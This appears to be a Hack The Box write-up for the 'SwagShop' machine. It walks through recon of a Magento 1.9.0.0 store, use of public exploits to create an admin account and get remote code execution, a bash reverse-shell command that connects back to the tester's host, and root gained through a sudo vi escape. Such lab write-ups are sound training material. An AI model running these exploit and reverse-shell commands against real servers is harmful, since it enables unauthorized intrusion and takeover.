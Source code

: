 # recon
## nmap
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

## 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
- gobuster
```
/app (Status: 301)
/api.php (Status: 200)
/cron.php (Status: 200)
/errors (Status: 301)
/favicon.ico (Status: 200)
/includes (Status: 301)
/index.php (Status: 200)
/install.php (Status: 200)
/js (Status: 301)
/lib (Status: 301)
/media (Status: 301)
/pkginfo (Status: 301)
/server-status (Status: 403)
/shell (Status: 301)
/skin (Status: 301)
/var (Status: 301)

```
- about us
```
To all of you, from all of us at Magento Store - Thank you and Happy eCommerce!

John Doe
Some important guy
```
- /js/ : `SYNTAX: index.php/x.js?f=dir1/file1.js,dir2/file2.js`
- /install.php : `FAILED ERROR: Magento is already installed `
- /shell
```
[ ]	abstract.php	2014-05-07 14:58 	5.5K	 
[ ]	compiler.php	2014-05-07 14:58 	4.3K	 
[ ]	indexer.php	2014-05-07 14:58 	8.0K	 
[ ]	log.php	2014-05-07 14:58 	5.8K	 
```
- /errors
```
[ ]	404.php	2014-05-07 14:58 	1.0K	 
[ ]	503.php	2014-05-07 14:58 	1.0K	 
[DIR]	default/	2014-05-07 14:58 	- 	 
[ ]	design.xml	2014-05-07 14:58 	1.0K	 
[ ]	local.xml.sample	2014-05-07 14:58 	1.6K	 
[ ]	processor.php	2014-05-07 14:58 	16K	 
[ ]	report.php	2014-05-07 14:58 	1.1K	 
```
- /includes/ : config.php
- **/lib/Magento/Db/Sql**
- /index.php/admin : admin page
 


## foot hold
from searchsploit I found an interesting exploit `Magento eCommerce - Remote Code Execution`. run `searchsploit -x <script>` to read more about the exploit. which lead us to this [blog](https://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/) post. We can use this exploit to create a admin user and gain access to Magento admin panel.
```
kali@kali:~/HTB/swag$ python2 37977.py
WORKED
Check http://10.10.10.140/index.php/admin with creds forme:forme
```
you can also change the script and modify admin username:password to what ever you like. note that **Magento ver. 1.9.0.0**.


after login it and googling the way to gain foothold exploiting Magento. there are several way to do it.
1. Froghopper which can be found in this [article](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)
2. use another exploit found in `searchsploit` call `Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution` which should work on swagshop since it is 1.9.0.0


some modification is requried to make the script works. you can google about some error which will occur while you try to run the exloit. HTB community forum, could be help full. Or debugg the code by yourself. make sure that the script is working by running `id` or `whoami`
```console
kali@kali:~/HTB/swag$ python2 37811.py http://10.10.10.140/index.php/admin/ 'whoami'
www-data
```
it works, so let's replace it with bash reverse shell payload:
```console
kali@kali:~/HTB/swag$ python2 37811.py http://10.10.10.140/index.php/admin/ 'bash -c "bash -i >& /dev/tcp/10.10.14.43/6969 0>&1"'
```
now go grab user flag.

# root
rooting is strait forward..
```console
www-data@swagshop:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```
note that we are allow to use `vi` to edit/create any files in `/var/www/html/`. We will then type `:!sh` in vi to gain shell with root permission.
```console
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/LICENSE.txt
:!sh
*
*
*
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
c2*******************

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
```